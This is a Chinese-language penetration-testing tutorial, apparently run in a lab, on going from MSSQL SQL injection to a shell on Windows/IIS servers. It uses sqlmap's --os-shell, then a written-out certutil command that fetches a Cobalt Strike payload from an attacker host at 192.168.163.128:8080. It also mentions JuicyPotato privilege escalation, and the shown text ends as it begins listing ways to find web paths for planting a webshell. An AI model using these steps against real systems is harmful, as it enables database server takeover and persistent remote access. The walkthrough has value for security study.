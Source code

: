 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzIwMzIyMjYzNA==&mid=2247489361&idx=1&sn=8ea1a12833c9a4d1ca13718fef6e7f6c&chksm=96d3ec54a1a4654292dd5f6c259ebf88707e09395dc387232238b90b8caeb2114640ad84c38e&mpshare=1&scene=1&srcid=0103u21xZQcMcoXGjAbgUvUC&sharer_sharetime=1609646741747&sharer_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=aa37eea3a2616ab366b99341e48a31e923213e2c6a42950da1155dfa1de4e2da5bd82b4865cff44eaf90570a7222b2962c5981e53114aca074d5a01d97262fa2df24f94e7daa0241821465d354480f17c03528f991d14af020a5bb39894d86b4fc2b31e154f4a70b05b957a7bb8da52b12054ed4bbb37db24bdbd48c83629ee6&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=63010029&lang=zh_CN&exportkey=ARTLDP8AH9GXtP8i%2Fj%2FIKOU%3D&pass_ticket=yy556pu%2Bp4W4mbvK7Q3O6PIbolc7ebdCh%2F3poyqaL0RGTca9FUoYwlT9SUXPGlGT&wx_header=0&fontgear=2)

0x01 环境准备
---------

```
windows2008+MSSQL2008+iis7windows2003+MSSQL2005+iis6
```

08 和 05 的 mssql 还是有些区别的

05 以下系统权限为 system

08 以上系统权限就不是 system 了，看到好几种，比较多的是 network service

0x02 通过命令下载文件得到 shell
---------------------

certutil 这个用的比较多，别的也没有试过，这篇文章比较详细

https://payloads.online/archivers/2017-11-08/1

环境用的是 08

首先通过 sqlmap --os-shell 得到执行命令的权限

打开 python 一句话服务器，在 CS 上面生成木马放到根目录

```
certutil.exe -urlcache -split -f http://192.168.163.128:8080/artifact.exe
```

如果提示拒绝访问，可以在找一个能创建文件夹的目录，创建完之后下载到文件夹里

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCxqU2edRfHBmyjuS1w5fpibepqOkOQThTf1ZQeEia9Xia3ctODT04DhebQ/640?wx_fmt=png)

这里会超时，然后 sqlmap 会重复执行命令，CS 会上线好几次，如果不需要的话发现上线直接退出 sqlmap 即可

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCiboia53YubO1w6Gufp2Sia2y72uvMjkevg8okREtxaQjVwMfRtAI8ibib8A/640?wx_fmt=png)

这里用户本来应该是 network service，但是安装的时候设置了一下就变成 administrator，如果为 network service 可以使用 juicypotato 提权

0x03 绝对路径写 webshell
-------------------

写 webshell 不难，但是找到绝对路径挺难的，总结了一下找绝对路径的方法

*   报错信息
    
*   配置文件
    
*   cmd 命令搜索文件
    